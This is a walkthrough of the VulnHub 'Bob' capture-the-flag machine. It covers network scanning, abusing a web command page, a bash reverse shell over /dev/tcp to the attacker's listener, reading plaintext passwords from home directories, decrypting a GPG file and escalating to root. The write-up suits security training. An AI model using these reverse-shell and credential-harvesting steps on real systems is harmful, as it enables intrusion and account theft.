# Bob CTF Walkthrough
 
This document is a detailed walkthrough of a **Capture the Flag (CTF)** challenge published on **VulnHub** by the author **"BOB"**. According to the author, the difficulty level of this CTF is **EASY-MEDIUM**, and the goal is to gain **root access** to the target machine and find the **flag files**.
 
The CTF can be downloaded [here](https://www.vulnhub.com/entry/bob-101,226/).
 
---
 
## **Brief Overview of the Solution Steps**
 
1. Get the **target machine's IP address** (**netdiscover**).
2. Scan the **target machine's open ports** (**nmap**).
3. Inspect the **HTTP service** and find hints.
4. Perform privilege escalation.
---
 
### 1. Getting the **target machine's IP address**
 
```sh
sudo netdiscover -r 192.168.56.0/24
```
 
### 2. Scanning the **target machine's open ports**
 
```sh
sudo nmap -A --reason 192.168.56.101
```
```sh
sudo nmap -sV --reason 192.168.56.101
```
 
We get the following:
 

 
As we can see, we apparently only have access to the web server, so let's try a more thorough scan with **nmap**:
 
```bash
nmap -sC -sV -p- -oN tcp_scan 10.0.2.13
```
 

 
This way we found an SSH service running on a non-default port (one way to harden it).
 
### 3. Exploring the web server
 
We open http://192.168.56.101 in the browser and get:
 

 
Opening the discovered resource /passwords.html in the browser gives us hints, but nothing concrete:
 

 
Let's check **robots.txt**:

 
We decode the Base64 string:
 
```sh
echo "base64-Encoded-String" | base64 --decode
```
 
```plaintext
Flag1: https://t.me/SoftServeEducation
```
 
After reviewing all the pages we found, let's focus on
**http://10.0.2.13/dev_shell.php**
and try entering bash commands, for example: **w, id, pwd**, etc.
We see that some commands execute correctly, and we can determine which user these commands are being run as.
 

 
This result makes it worth trying to get a reverse shell, so let's start:
```sh
nc -lvnp 4444
```
 
To create the reverse shell on the target side, we can use the
[GitHub resource:](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp)
 
 
```sh
bash -c 'bash -i >& /dev/tcp/192.168.56.102/4444 0>&1'
```

 
And we get the following result:

 
Let's start with the **/home/bob** directory.
To list hidden files, we use the command:
```sh
ls -la
``` 
We find a file called **.old_passwordfile.html**.
We get the following result:

 
We now have the following credentials:
```text
jc:Qwerty
seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
```
We check the other home directories:
 
```bash
cd /home/elliot
```
 
We find an interesting file.
 

 
We determine its content:
 
```text
jc:Qwerty
elliot:theadminisdumb
```
We can log in via SSH on the specific port for each user,
 



 
but only the **bob** account has root privileges.
 
So we start examining the **/home/bob** directory in more detail.
 
**cat staff.txt** — this is more about team intrigue.
 

 
**cat login.txt.gpg**
The ".gpg" extension indicates that the file is encrypted using GPG (GNU Privacy Guard) or GnuPG. GPG is free, open-source software that provides cryptographic privacy and authentication for data communication.
Trying to open this file requires a decryption key, which we don't have.
The general usage pattern looks like this:
```sh
gpg --batch --yes --passphrase 'PASSWORD_PHRASE' -o login.txt -d login.txt.gpg
```
 — and this is something we can use.
 
Having determined that all the **echo** commands seem unrelated, we try linking the first letters of each sentence/word into a single word,
 

 
and we get:
```text
HARPOCRATES
```
 
The user **www-data** does not have permission to run **gpg**, so we use the
credentials we found:
 

 
Let's try decrypting **login.txt.gpg**:
```sh
gpg --batch --yes --passphrase 'HARPOCRATES' -d login.txt.gpg
```
The decrypted file looks like this:

We obtained bob's password:
```text
bob: b0bcat_
```
 

 
We switch to root using the command ***su root***.
As the next step, we try to log in as the user **bob**.
We get a positive result.
 
We find flag.txt and print its contents.
 
